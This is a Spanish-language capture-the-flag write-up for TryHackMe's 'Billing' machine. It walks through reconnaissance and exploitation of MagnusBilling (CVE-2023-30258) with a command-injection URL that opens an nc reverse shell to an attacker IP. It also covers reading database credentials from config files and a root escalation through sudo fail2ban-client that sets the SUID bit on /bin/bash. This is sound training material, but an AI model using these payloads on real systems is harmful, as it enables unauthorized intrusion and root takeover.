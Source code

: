 ```yaml
---
title: Billing
description: Write Up máquina Billing de Try Hack Me
published: true
date: 2025-05-06T16:30:36.213Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:23:46.118Z
---
```


# Billing
Bienvenido, va a encontrar el write up de la máquina Billing de TryHackMe.

## Reconocimiento
Lo primero que vamos a hacer es un comando básico de detección de puertos mediante nmap. Por lo tanto el comando será
```nmap
nmap -sT -Pn -sV {IP} 
```
![Uso de Nmap](/imagenes/billing-1.png)

Podemos observar como tenemos 3 puertos abiertos.
- Puerto 22: Para conexiones SSH
- Puerto 80: Para conexiones http
- Puerto 3306: Para base de datos SQL

Vamos a hacer un dirb para analizar todos las entradas disponibles en el website.
```
dirb http://{IP}
```
![Uso de Dirb](/imagenes/billing-2.png)

Observamos que tenemos el robots.txt disponible, por lo que vamos a entrar para observar que hay.

![Información de robots](/imagenes/billing-4.png)

No hay mucha información, por lo que vamos a ir al index normal.

![Login](/imagenes/billing-3.png)

Como podemos observar, parece un login clasico, sin embargo si nos fijamos en la ventana podemos observar el nombre del software que es MagnusBilling.

Si nos vamos al website oficial podemos observar información de que usa un Framework de Javascript llamado ExtJS 6.2.0.981, esta versión es vulnerable según el CVE-2023-30258.

## Explotación
Ahora que tenemos el plan, vamos a ejecutar el script para poder hacer la sell reversa. 

Lo primero que vamos a hacer es un puerto de escucha con:
```nc -lnvp 443```

Luego vamos a escribir lo siguiente, lo cúal consiste en una ejecución de comando de forma remota mediante el path.

'http://{IP máquina}/mbilling/lib/icepay/icepay.php?democ=iamhacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP atacante}10.9.3.144 443 >/tmp/f;#'

![Puerto de escucha](/imagenes/billing-5.png)
Tras esto vamos a comprobar que usuario somos, con un id básico.

![ID](/imagenes/billing-6.png)

Como podemos observar somos el usuario asterisk


Ahora lo que haremos será dirigirnos a /var/www/html/mbilling, donde vamos a analizar el contenido del index.php, para ver que configuración usa para el login.

![Info index.html](/imagenes/billing-7.png)

Como podemos observar, el archivo que nos interesa es uno ubicado en /protected/config y se llama main.php, ya qu eparece que esta toda la información.


Mirando el archivo podemos observar que toma la configuración de login de otro archivo de configuración llamado res_config_mysql.conf, ubicado en /etc/asterisk/res_config_mysql.conf.

![Info .php](/imagenes/billing-8.png)

Vamos a entrar en la base de datos para ver si podemos acceder al website.

Antes vamos a securizar la shell mediante:
```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Tras esto hacemoz Ctrl + Z y ponemos stty raw -echo;fg

Le damos a enter dos veces y ponemos export TERM=xterm.

![Información login](/imagenes/billing-10.png)

Tras esto vamos a acceder a la base de datos como ibamos a hacer en un principio.

Podemos observar como tenemos una base de datos llamada mbilling, es la que usaremos y dentro tenemos muchas tablas, pero la que nos interesa se llamada pkg_user. Por lo que vamos a hacer
```mysql
SELECT * FROM pkg_user;
```

Lamentableente la información es demasiado densa para entendar.

![](/imagenes/billing-11.png)

Deberiamos descifrar la contraseña para poder acceder al usuario, sin embargo para completar la máquina no es necesario.

## Finalización
Ahora vamos a comprobar si tenemos la flag en el Home del usuario, sin embargo podemos observar que no hay, por lo que vamos a comprobar usuarios existentes y buscaremos la flag ahí.


![Flag user](/imagenes/billing-12.png)


Ahora vamos a comprobar que comandos podemos hacer mediante el uso de sudo -l

![Sudo -l](/imagenes/billing-13.png)


Como podemos observar, somos capaces de ejecutar el comando fail2ban-client, como root sin problema. 
```
sudo fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
```
Este comando hace que cuando fail2ban detecte una IP que no debería entrar, su sentencia es que ejecute el comando /bin/bash, com root.

También es necesario autobanear nuestra popia IP, para ello ponemos
```
sudo /usr/bin/fail2ban-client set asterisk-iptables banip {IP}
```

![Baneo](/imagenes/billing-14.png)

Tras esto, podemos crear una nueva shell con
```bash
bash -p
```

![Sudo -l](/imagenes/billing-15.png)

Tras esto podemos finalizar con la máquina ya que nos detecta que nuestra IP está vetada y por lo tanto nos inicia sesión como root, nos dirigimos al directorio de root y podemos usar el website.
![Fin](/imagenes/billing-16.png)